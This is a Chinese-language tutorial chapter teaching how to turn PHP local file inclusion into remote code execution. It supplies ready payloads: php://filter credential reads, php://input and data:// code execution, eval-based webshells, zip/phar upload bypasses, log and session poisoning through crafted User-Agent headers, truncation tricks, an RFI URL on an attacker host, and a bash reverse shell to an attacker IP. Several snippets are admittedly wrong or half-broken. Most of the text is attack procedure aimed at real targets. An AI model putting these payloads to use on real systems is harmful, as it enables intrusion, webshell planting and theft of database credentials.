






# 第30章 文件包含漏洞进阶

> **难度等级：🟠 高等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：PHP伪协议详解、php://filter读源码、php://input执行代码、phar://、zip://、data://、日志包含GetShell、session包含GetShell、文件包含截断技巧、各种LFI到RCE的姿势**
>
> ::: tip 说明
> 上一章我们讲了文件包含漏洞的基础，
> 包括什么是文件包含、
> LFI和RFI的区别、
> 路径穿越等等。
>
> 这一章我们来学点更高级的：
> **怎么从一个普通的LFI，
> 一步步GetShell。**
>
> 你会学到：
> - PHP伪协议大全
> - 怎么用php://filter读PHP源码
> - 怎么用php://input直接执行代码
> - 怎么用日志包含拿Shell
> - 怎么用session包含拿Shell
> - 各种截断技巧
> - 还有很多奇技淫巧...
>
> 准备好了吗？
> 这一章干货满满，
> 坐稳了！
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手学文件包含的时候，
都有一个疑问：
"我知道有LFI漏洞，
也能读/etc/passwd，
但是然后呢？
怎么拿Shell啊？"

问得好！
这一章就是来回答这个问题的。

从LFI到RCE（远程代码执行），
有很多条路可以走：

1. **PHP伪协议**：php://input、php://filter、phar://、zip://、data://...
2. **日志包含**：Apache/Nginx日志包含
3. **session文件包含**
4. **环境变量包含**：/proc/self/environ
5. **临时文件包含**：php://temp、php://memory
6. **配合文件上传**：上传图片马然后包含

这一章我们一个个来讲，
从最实用的开始。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 掌握常用的PHP伪协议
- [x] 会用php://filter读取PHP源码
- [x] 会用php://input执行PHP代码
- [x] 理解phar://、zip://、data://等伪协议
- [x] 掌握日志包含GetShell的方法
- [x] 掌握session包含GetShell的方法
- [x] 理解各种截断技巧
- [x] 知道至少5种从LFI到RCE的方法
- [x] 能在实战中利用文件包含GetShell
- [x] 理解文件包含漏洞的防御方法

---

## 🔐 PHP伪协议详解

### 💡 通俗理解：伪协议是什么？为什么这么重要？

伪协议是文件包含漏洞最核心的利用手段，也是很多新手觉得"难理解"的地方。
我们先用一个比喻搞清楚这个概念。

**想想你的手机：**

手机里的"相机"是一个特殊的功能。当你点击"拍照"按钮时，
手机不需要你去"选择一个照片文件"——它直接打开摄像头，实时捕捉画面。

**伪协议就是PHP里的"特殊入口"：**

正常情况下，`include("header.php")` 的意思是："去硬盘上找 header.php 这个文件"。
这是正常的文件包含。

但伪协议的意思是："别去硬盘找，从别的地方取数据！"
- `php://filter` → "去读一个文件，但可以加个'滤镜'（比如base64编码）"
- `php://input` → "从HTTP请求的body里取数据"
- `phar://` → "去压缩包里找文件"
- `data://` → "直接用我写给你的文本数据"

**用代码来感受区别：**

```php
// 正常的文件包含：从硬盘读
include("shell.php");              // 执行硬盘上的 shell.php

// 伪协议：从"别的地方"获取代码
include("php://filter/read=convert.base64-encode/resource=index.php");
// 读取 index.php 的内容，但用 base64 编码输出 → 不会执行，能看到源码！

include("php://input");
// 从POST请求的body里取代码，并执行！

include("data://text/plain,<?php phpinfo();?>");
// 直接把我写的PHP代码（phpinfo()）执行了！

include("phar://uploads/test.zip/shell.php");
// 去 uploads/test.zip 这个压缩包里找 shell.php 并包含！
```

> **一句话理解：**
> 正常文件包含 → 从"硬盘"读文件
> 伪协议 → 从"非硬盘"的地方读数据（POST请求、内存、压缩包、直接文本...）
>
> 为什么伪协议对攻击者这么重要？
> 因为有了伪协议，攻击者就可以：
> 1. 不传文件直接执行代码（php://input, data://）
> 2. 读取源码而不执行（php://filter + base64）
> 3. 绕过后缀限制上传WebShell（phar://, zip://）


PHP伪协议是文件包含漏洞中最常用的技巧，
没有之一。

PHP支持很多种"伪协议"（也叫封装协议），
可以用在include、fopen、file_get_contents等函数中。

常用的伪协议有：

| 伪协议 | 作用 | 要求 |
|--------|------|------|
| `php://filter` | 读取文件源码（base64编码等） | 无特殊要求 |
| `php://input` | 读取POST原始数据，可执行代码 | 需要allow_url_include=On |
| `php://stdin` | 读取标准输入 | - |
| `php://stdout` | 写入标准输出 | - |
| `php://memory` | 读写内存 | - |
| `php://temp` | 读写临时文件 | - |
| `file://` | 访问本地文件系统 | - |
| `http://` | 访问HTTP URL | allow_url_fopen=On |
| `ftp://` | 访问FTP URL | allow_url_fopen=On |
| `phar://` | 访问phar归档 | PHP >= 5.3.0 |
| `zip://` | 访问zip压缩包 | PHP >= 5.2.0 |
| `zlib://` | 访问压缩文件 | - |
| `data://` | 数据URI | allow_url_include=On |
| `glob://` | 查找匹配的文件路径模式 | PHP >= 5.3.0 |

下面我们挑几个最常用的详细讲。

**图30-1 PHP伪协议分类图**



---

## 📖 php://filter 读取源码

### 2.1 什么是php://filter？

`php://filter` 是一种元封装协议，
用于对数据流进行过滤。

简单来说就是：
> 你可以在读取文件的时候，
> 对文件内容做一些处理，
> 比如转换成base64编码、
> 转换成大写小写、
> 压缩解压等等。

对于我们来说，
最有用的就是：
**用base64编码读取PHP文件的源码！**

因为如果直接include一个PHP文件，
里面的PHP代码会被执行，
我们看不到源码。
但是如果先用base64编码一下，
PHP代码就变成了普通字符串，
不会被执行，
我们就能看到源码了！

**图30-2 php://filter 读取源码原理图**



### 2.2 基本用法

**语法格式：**
```
php://filter/convert.base64-encode/resource=文件名
```

**例子：**
```
?file=php://filter/convert.base64-encode/resource=config.php
```

这样返回的就是config.php的base64编码内容，
解码一下就能看到源码了。

**完整的漏洞利用示例：**

漏洞代码：
```php
<?php
$file = $_GET['file'];
include($file);
?>
```

利用：
```
?file=php://filter/convert.base64-encode/resource=config.php
```

返回：
```
PD9waHAKJGNvbmZpZyA9IGFycmF5KAogICdkYl9ob3N0JyA9PiAnbG9jYWxob3N0JywKICAnZGJfdXNlcicgPT4gJ3Jvb3QnLAogICdkYl9wYXNzJyA9PiAnMTIzNDU2JywpOwo/Pg==
```

base64解码：
```php
<?php
$config = array(
  'db_host' => 'localhost',
  'db_user' => 'root',
  'db_pass' => '123456',
);
?>
```

完美！
数据库密码都拿到了！

### 2.3 为什么要用base64？

有人可能会问：
"为什么不直接include？"

因为直接include的话，
PHP代码会被执行，
执行完了就没了，
我们看不到源码。

比如config.php内容是：
```php
<?php
$db_pass = '123456';
?>
```

直接include的话，
代码执行了，
变量赋值了，
但什么都不会输出，
我们看不到密码。

但是用base64编码一下，
整个文件内容（包括PHP标签）
都变成了base64字符串，
这些字符串不是PHP代码，
不会被执行，
会直接输出出来。
我们拿到base64解码一下，
就能看到完整的源码了。

::: tip 一句话总结
> php://filter + base64编码 = 读取任意PHP文件源码
:::

### 2.4 有后缀的情况怎么用？

如果代码是这样的（有后缀）：
```php
<?php
$file = $_GET['file'];
include($file . ".php");
?>
```

那用php://filter行不行呢？

我们来试试：
```
?file=php://filter/convert.base64-encode/resource=config
```

拼接后是：
```
php://filter/convert.base64-encode/resource=config.php
```

哎，正好！
后面的 `.php` 自动拼到resource后面了，
刚好就是 `config.php`，
完美！

所以 **php://filter在有后缀的情况下也能用！**
这是它的一大优势。

### 2.5 常用的filter列表

除了base64编码，
还有很多其他的filter：

| filter名称 | 作用 |
|-----------|------|
| `convert.base64-encode` | base64编码 |
| `convert.base64-decode` | base64解码 |
| `string.toupper` | 转大写 |
| `string.tolower` | 转小写 |
| `string.strip_tags` | 去除HTML和PHP标签 |
| `zlib.deflate` | 压缩（deflate） |
| `zlib.inflate` | 解压（inflate） |
| `bzip2.compress` | bzip2压缩 |
| `bzip2.decompress` | bzip2解压 |
| `convert.iconv.*` | 字符编码转换 |

对于读取源码来说，
`convert.base64-encode` 是最常用的，
也是最好用的。

### 2.6 php://filter的其他姿势

#### 多个filter链式使用
可以同时用多个filter，用 `|` 分隔：
```
php://filter/string.toupper|string.rot13/resource=test.php
```

#### 读取远程文件（如果allow_url_include开了）
```
php://filter/convert.base64-encode/resource=http://example.com/test.php
```

### 2.7 实操练习

假设目标有文件包含漏洞：
```
http://target/vuln.php?file=index
```
（后台是 include($_GET['file'] . ".php");）

**1. 读取config.php源码：**
```
http://target/vuln.php?file=php://filter/convert.base64-encode/resource=config
```

**2. 读取上一级目录的db.php：**
```
http://target/vuln.php?file=php://filter/convert.base64-encode/resource=../db
```

**3. 读取/etc/passwd：**
```
http://target/vuln.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
```
（读非PHP文件也能用，不过直接读也行）

---

## 💻 php://input 执行代码

### 3.1 什么是php://input？

`php://input` 是一个只读流，
可以读取HTTP请求的原始POST数据。

如果用include包含 `php://input`，
那么POST数据就会被当作PHP代码执行！

**这就直接RCE了！**

### 3.2 利用条件

利用 `php://input` 需要满足：
- `allow_url_include = On`
- `allow_url_fopen = On`

（和远程文件包含的条件一样）

::: warning 注意
php://input 需要 allow_url_include=On，
默认是Off的，
所以不一定能用。
但如果能用的话，
就直接代码执行了，
非常爽。
:::

### 3.3 怎么用？

**漏洞代码：**
```php
<?php
$file = $_GET['file'];
include($file);
?>
```

**利用方法：**

1. GET参数设置为 `?file=php://input`
2. POST数据就是要执行的PHP代码

**示例（用curl）：**
```bash
curl -X POST "http://target/vuln.php?file=php://input" \
  -d "<?php system('whoami'); ?>"
```

或者用Burp Suite发请求：
```http
POST /vuln.php?file=php://input HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

<?php system('whoami'); ?>
```

这样就能直接执行命令了！

**图30-3 php://input 执行代码原理时序图**

```mermaid
sequenceDiagram
    participant Attacker as 攻击者
    participant Web as Web应用
    participant PHP as PHP引擎
    Attacker->>Web: POST /vuln.php?file=php://input
    Attacker->>Web: POST数据: <?php system('whoami'); ?>
    Web->>PHP: include(php://input)
    PHP->>PHP: 读取POST原始数据作为文件内容
    PHP->>PHP: 当作PHP代码执行 system('whoami')
    PHP-->>Web: 命令执行结果
    Web-->>Attacker: 返回whoami结果
```

### 3.4 有后缀的情况

如果代码有后缀：
```php
<?php
$file = $_GET['file'];
include($file . ".php");
?>
```

那 `php://input` 还能用吗？

答案是：**不行！**

因为拼接后变成了：
```
php://input.php
```
这就不对了，
php://input没有后缀这种用法。

所以有后缀的话，
php://input就用不了了。

（这时候可以试试php://filter读源码，那个不受后缀影响）

### 3.5 用php://input拿Shell

如果php://input能用，
拿Shell就太简单了：

**1. 直接执行命令：**
```http
POST /vuln.php?file=php://input HTTP/1.1
Host: target

<?php system($_GET['cmd']); ?>
```
然后访问：
```
http://target/vuln.php?file=php://input&cmd=whoami
```
（不对，POST数据是PHP代码，GET参数是传给代码的，需要调整）

**2. 写一句话木马：**
```http
POST /vuln.php?file=php://input HTTP/1.1
Host: target

<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd]);?>'); ?>
```
这样就在当前目录写了一个shell.php。

**3. 直接反弹Shell：**
```http
POST /vuln.php?file=php://input HTTP/1.1
Host: target

<?php
bash -c 'bash -i >& /dev/tcp/攻击者IP/4444 0>&1'
?>
```
（注意转义，用system或者exec执行）

---

## 📦 phar:// 和 zip:// 伪协议

### 4.1 phar:// 伪协议

`phar://` 是PHP用来访问phar归档文件的协议。
phar是PHP的归档文件格式，
类似Java的jar包。

**怎么利用呢？**

我们可以构造一个phar文件，
里面包含恶意PHP代码，
然后上传上去，
再用 `phar://` 包含执行。

**利用条件：**
- PHP >= 5.3.0
- 需要能上传phar文件（或者图片马phar）
- 需要知道上传文件的路径

**利用步骤：**
1. 构造一个phar文件，里面有恶意代码
2. 上传到服务器（可能需要改后缀绕过上传检测）
3. 用phar://伪协议包含这个文件
4. 执行恶意代码

**示例：**
```
?file=phar://upload/test.jpg/shell
```
（test.jpg是一个phar文件，里面有shell.php）

phar文件里面可以有多个文件，
用 `/` 来指定里面的文件。

::: tip 说明
phar://在有后缀的情况下也能用，
因为后面的后缀会被当作phar包内文件的一部分？
不对，具体要看情况。
phar:// 更常用于反序列化漏洞，
我们后面讲反序列化的时候会详细讲。
:::

### 4.2 zip:// 伪协议

`zip://` 用来访问zip压缩包中的文件，
和phar://类似。

**用法：**
```
zip:///path/to/zip文件#压缩包内的文件
```

**例子：**
```
?file=zip:///var/www/html/upload/test.zip%23shell.php
```
（#需要URL编码为%23）

**利用步骤：**
1. 把一句话木马压缩成zip
2. 上传zip文件（或者改后缀为.jpg绕过）
3. 用zip://包含zip里的恶意文件
4. 执行代码

**优点：**
- 构造简单，就是个普通zip包
- 有后缀的情况下可能也能用

### 4.3 实操：构造zip Shell

1. 先写一个shell.php：
```php
<?php @eval($_POST['cmd']); ?>
```

2. 压缩成zip：
```bash
zip shell.zip shell.php
```

3. 把zip改名为shell.jpg（绕过上传检测）

4. 上传到服务器，假设路径是 `upload/shell.jpg`

5. 利用文件包含：
```
?file=zip://upload/shell.jpg%23shell.php
```

6. 这样就包含执行了shell.php，
   然后用菜刀/蚁剑连接，
   或者直接POST cmd参数执行命令。

**图30-4 phar与zip伪协议利用流程图**



---

## 📊 data:// 伪协议

### 5.1 什么是data://？

`data://` 是数据URI协议，
可以直接把数据内嵌在URL中。

**语法：**
```
data://text/plain,数据内容
data://text/plain;base64,base64编码的数据
```

### 5.2 利用方法

如果include了data://的URL，
那里面的内容就会被当作PHP代码执行。

**利用条件：**
- `allow_url_include = On`
- `allow_url_fopen = On`

**示例：**
```
?file=data://text/plain,<?php phpinfo();?>
```

或者用base64编码（避免特殊字符问题）：
```
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
```

（PD9waHAgcGhwaW5maW8pOz8+ 是 `<?php phpinfo();?>` 的base64编码）

### 5.3 有后缀的情况

data:// 和 php://input 一样，
有后缀的话就不能用了，
因为拼接后变成了：
```
data://text/plain,xxx.php
```
这就不对了。

### 5.4 data:// vs php://input

| 对比项 | php://input | data:// |
|--------|-------------|---------|
| 数据位置 | POST body中 | GET参数中 |
| 数据长度 | 可以很大 | URL长度有限制 |
| 有后缀能否用 | 不能 | 不能 |
| 条件 | allow_url_include=On | allow_url_include=On |

---

## 📝 日志包含GetShell

前面讲的伪协议，
很多都需要 `allow_url_include=On`，
默认是关闭的。

那如果 `allow_url_include` 是Off的，
只有一个普通的LFI，
怎么拿Shell呢？

**日志包含！**
这是最经典也最常用的LFI拿Shell方法之一。

### 6.1 原理

服务器会记录访问日志，
比如Apache的access.log。
日志里会记录访客的User-Agent、URL、IP等信息。

如果我们在User-Agent里写一段PHP代码，
这段代码就会被记录到日志文件里。
然后我们用LFI包含这个日志文件，
日志里的PHP代码就会被执行！

**完美！**

### 6.2 前提条件

1. 知道日志文件的路径
2. 日志文件可读（一般都可读）
3. 能控制日志里的某些内容（比如User-Agent）

### 6.3 常见日志路径

**Apache日志：**
```
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/usr/local/apache/logs/access.log
...
```

**Nginx日志：**
```
/var/log/nginx/access.log
/var/log/nginx/error.log
/usr/local/nginx/logs/access.log
...
```

**其他日志：**
```
/var/log/auth.log
/var/log/syslog
/var/log/messages
...
```

### 6.4 利用步骤

**第一步：往日志里写PHP代码**

最简单的方法是修改User-Agent。
用Burp Suite或者curl发请求，
把User-Agent改成PHP代码。

```bash
curl -H "User-Agent: <?php @eval(\$_POST['cmd']); ?>" http://target/
```

或者直接在URL里写（如果URL会被记录到日志）：
```
http://target/<?php @eval($_POST['cmd']);?>
```
（不过URL里的特殊字符可能会被URL编码，
User-Agent更可靠）

::: warning 注意
User-Agent里写PHP代码的时候，
注意转义特殊字符，
或者用不容易出错的payload。
:::

**第二步：包含日志文件**

用LFI包含日志文件：
```
?file=../../../../var/log/apache2/access.log
```

如果成功的话，
日志里的PHP代码就会被执行，
我们就拿到Shell了！

**图30-5 日志包含GetShell流程图**



### 6.5 实际操作演示

让我们完整走一遍流程：

**1. 确认有LFI漏洞**
```
?file=../../../../etc/passwd
```
（能读到passwd，说明有LFI）

**2. 找日志文件路径**
- 先猜常见路径
- 或者读phpinfo()、配置文件找
- 或者读Apache配置文件找

**3. 往日志里写PHP代码**

用Burp Suite发一个请求，
User-Agent改成：
```
<?php system($_GET['c']); ?>
```

或者用curl：
```bash
curl -A "<?php system(\$_GET['c']); ?>" http://target/
```

**4. 包含日志执行命令**
```
?file=../../../../var/log/apache2/access.log&c=whoami
```

如果成功，
就能看到whoami的执行结果了！

**5. 进一步利用**
- 写一句话木马
- 反弹Shell
- 提权
- ...

### 6.6 可能遇到的问题

#### 问题1：日志文件太大
日志文件可能很大，
包含起来很慢，
而且前面有很多乱七八糟的内容。

解决方法：
- 日志尾部会有我们最新写入的代码
- 耐心等，或者用filter过滤（不太好搞）
- 直接找我们的代码在哪

#### 问题2：代码里的特殊字符被转义了
比如 `<?php` 变成了 `&lt;?php`，
那代码就执行不了了。

解决方法：
- 试试其他注入点（比如Referer？）
- 试试用其他日志（error.log？）
- 试试其他方法

#### 问题3：不知道日志路径
解决方法：
- 读配置文件找
- 猜常见路径
- 读phpinfo
- 读/proc/self/cmdline看启动参数

### 6.7 Nginx日志包含

Nginx的日志包含和Apache类似，
也是包含access.log或者error.log。

**Nginx日志路径：**
```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

方法一样，
不再赘述。

---

## 🎯 Session包含GetShell

除了日志包含，
另一个常用的LFI拿Shell方法是：
**Session文件包含。**

### 7.1 原理

PHP的session默认是存在文件里的，
文件路径一般在 `/tmp/` 或者 `/var/lib/php/sessions/` 下，
文件名是 `sess_` + session_id。

如果我们能控制session里的内容，
往session里写PHP代码，
然后用LFI包含这个session文件，
就能执行代码了！

### 7.2 Session文件路径

**常见session存储路径：**
```
/tmp/sess_XXXXXXXX
/var/lib/php/sessions/sess_XXXXXXXX
/var/lib/php/session/sess_XXXXXXXX
/var/tmp/sess_XXXXXXXX
/tmp/session/sess_XXXXXXXX
...
```

session文件名格式：`sess_` + PHPSESSID的值

比如PHPSESSID是 `abc123`，
那session文件就是 `sess_abc123`。

### 7.3 利用条件

1. 知道session文件存储路径
2. 能控制session中的内容
3. session文件可读
4. 有LFI漏洞

### 7.4 怎么控制Session内容？

怎么往session里写东西呢？

**方法1：利用网站自身功能**

很多网站会把用户输入存到session里，
比如：
- 用户名
- 搜索关键词
- 购物车
- 用户设置
- ...

只要有一个输入点，
输入的内容会被存到session里，
我们就可以利用。

比如搜索功能：
- 搜索关键词会被存到session里
- 我们在搜索框输入 `<?php phpinfo();?>`
- 这段代码就被存到session里了
- 然后包含session文件就能执行

**方法2：PHP_SESSION_UPLOAD_PROGRESS**

如果PHP版本合适，
还可以利用 `session.upload_progress` 功能。
这个功能会把上传进度信息存到session里，
我们可以利用这个来写入session。

（这个稍微复杂一点，新手先了解就行）

### 7.5 利用步骤

**1. 找一个session存储点**

比如网站有搜索功能，
搜索词会存在session里。

**2. 往session里写PHP代码**

在搜索框输入：
```
<?php @eval($_POST['cmd']); ?>
```

然后搜索，
这样session里就有这段代码了。

**3. 获取自己的PHPSESSID**

看浏览器的Cookie，
或者看请求头，
找到PHPSESSID的值。
比如是 `abcd1234efgh5678`。

**4. 包含session文件**

```
?file=../../../../tmp/sess_abcd1234efgh5678
```

或者：
```
?file=../../../../var/lib/php/sessions/sess_abcd1234efgh5678
```

如果成功，
session里的PHP代码就会被执行，
我们就拿到Shell了！

**图30-6 Session包含GetShell流程图**



### 7.6 实操示例

假设目标网站有个搜索功能，
搜索词会被存到session里。

**1. 访问网站，获取PHPSESSID**
比如Cookie是：
```
PHPSESSID=test123abc
```

**2. 搜索恶意内容**
在搜索框输入：
```
<?php system($_GET['c']); ?>
```
点击搜索。

**3. 包含session文件**
```
?file=../../../../tmp/sess_test123abc&c=whoami
```

如果成功，
就能看到命令执行结果了！

---

## 🔧 其他LFI利用方法

除了上面讲的这些，
还有一些其他的LFI利用方法，
我们简单了解一下。

### 8.1 /proc/self/environ 包含

**原理：**
`/proc/self/environ` 是Linux下的一个文件，
里面存储着当前进程的环境变量。
环境变量中可能包含User-Agent等我们能控制的内容。

如果我们往User-Agent里写PHP代码，
然后包含 `/proc/self/environ`，
也能执行代码。

**利用条件：**
- Linux系统
- /proc/self/environ 可读（老版本PHP可能可读）
- 能控制环境变量（比如User-Agent）

**示例：**
```
?file=../../../../proc/self/environ
```

::: tip 注意
这个方法比较老了，
现在新系统/新PHP版本一般用不了，
因为 `/proc/self/environ` 权限限制了。
了解一下就行。
:::

### 8.2 PHP临时文件包含（php://temp / php://memory）

`php://temp` 和 `php://memory` 是PHP的临时文件/内存流。

如果能往里面写东西，
然后再包含，
也能执行代码。
但一般需要配合其他漏洞（比如文件上传的临时文件）。

### 8.3 配合文件上传

这个是最简单直接的：
1. 找到文件上传点
2. 上传图片马（比如1.jpg，内容是PHP代码）
3. 知道上传路径
4. 用LFI包含这个图片马
5. 代码执行

如果有文件上传+文件包含，
那拿Shell是最稳的。

### 8.4 其他奇技淫巧

- 包含上传的临时文件（`/tmp/phpXXXXXX`）
- 包含SSH日志（`~/.ssh/authorized_keys` 之类）
- 包含邮件日志
- 包含数据库文件
- ...

方法很多，
核心思路就是：
> **找到一个我们能控制内容的文件，
> 然后用LFI包含它。**

---

## ✂️ 文件包含截断技巧

前面我们提到过，
如果include有后缀（比如 `.php`），
很多方法就用不了了。
这时候就需要截断技巧。

### 9.1 %00截断（空字节截断）

**原理：**
PHP底层是C语言写的，
C语言中字符串以 `\0` 结尾。
所以如果文件名中有 `%00`（URL编码的空字节），
后面的内容就会被截断掉。

**用法：**
```
?file=../../../../etc/passwd%00
```

拼接后：
```
../../../../etc/passwd%00.php
```

实际PHP认为是：
```
../../../../etc/passwd
```
（到%00就结束了）

**条件：**
- PHP < 5.3.4
- magic_quotes_gpc = Off

::: warning 注意
这个方法比较老了，
现在PHP版本都很高了，
一般用不了。
但遇到老系统还是可以试试。
:::

### 9.2 路径长度截断（Windows）

**原理：**
Windows下路径有最大长度限制（MAX_PATH=260），
如果路径太长，
超过的部分会被截断。

**用法：**
在路径后面加很多 `./` 或者 `/`，
把路径撑长，
让后面的后缀被截断掉。

```
?file=shell.php/./././././...（很多个./）
```

（具体需要多少个要看情况）

**条件：**
- Windows系统
- PHP版本较低
- 路径足够长

### 9.3 路径长度截断（Linux）

Linux下也有类似的问题，
不过限制更长（4096字节），
需要更多的 `./`。

### 9.4 问号截断（仅限RFI）

如果是远程文件包含（RFI），
可以用问号 `?` 把后面的后缀变成URL参数。

```
?file=http://攻击者IP/shell.txt?
```

拼接后：
```
http://攻击者IP/shell.txt?.php
```

对于HTTP请求来说，
`.php` 是查询字符串的一部分，
所以实际请求的还是 `shell.txt`。

**条件：**
- 必须是RFI（远程文件包含）
- allow_url_include=On

::: tip 截断方法总结
| 方法 | 适用场景 | 条件 |
|------|----------|------|
| %00截断 | LFI | PHP < 5.3.4，GPC关闭 |
| 路径长度截断 | LFI | Windows/Linux老版本 |
| 问号截断 | RFI | allow_url_include=On |
:::

**图30-7 文件包含截断技巧分类图**



---

## 📚 案例讲解

### 案例1：php://filter读取数据库配置

**场景描述：**
某网站存在文件包含漏洞，
URL形式：
```
http://target/index.php?page=home
```
后台代码：
```php
<?php
$page = $_GET['page'];
include $page . '.php';
?>
```

**利用过程：**

**1. 确认文件包含漏洞**
```
http://target/index.php?page=../../../../etc/passwd
```
发现报错，因为有.php后缀。

**2. 用php://filter读取config.php**
```
http://target/index.php?page=php://filter/convert.base64-encode/resource=config
```
（因为有.php后缀，resource=config 会变成 config.php，刚刚好）

**3. 返回base64编码的内容**
```
PD9waHAKLy8g5pWw5o2u57u057q/6YeR5b6uCnB1YmxpYyAkZGJfaG9zdCA9ICdsb2NhbGhvc3QnOwpwdWJsaWMgJGRiX3VzZXIgPSAncm9vdCc7CnB1YmxpYyAkZGJfcGFzcyA9ICdhZG1pbjEyMyc7CnB1YmxpYyAkZGJfbmFtZSA9ICd3ZWJzaXRlJzsKPz4=
```

**4. base64解码**
```php
<?php
// 数据库配置信息
public $db_host = 'localhost';
public $db_user = 'root';
public $db_pass = 'admin123';
public $db_name = 'website';
?>
```

**5. 拿到数据库密码！**
然后可以：
- 连接数据库
- 脱裤
- 找后台密码
- 登录后台getshell
- ...
